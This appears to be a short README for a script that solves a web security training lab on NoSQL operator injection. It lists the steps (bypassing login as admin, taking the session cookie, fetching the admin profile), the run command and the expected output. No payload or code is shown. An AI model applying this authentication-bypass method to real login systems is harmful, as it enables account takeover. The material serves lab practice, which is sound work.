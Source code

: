 # Hack Steps

1. Injecting operators in the request body to bypass authentication and login as admin
2. Extract session cookie from the response headers
3. Fetch the admin profile

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python exploiting_nosql_operator_injection_to_bypass_authentication.py
```

# Expected Output

```
⦗1⦘ Injecting operators in the request body to bypass authentication.. OK
⦗2⦘ Extracting session cookie of the admin.. OK
⦗3⦘ Fetching adminr4expa6h profile.. OK
🗹 Check your browser, it should be marked now as solved
```
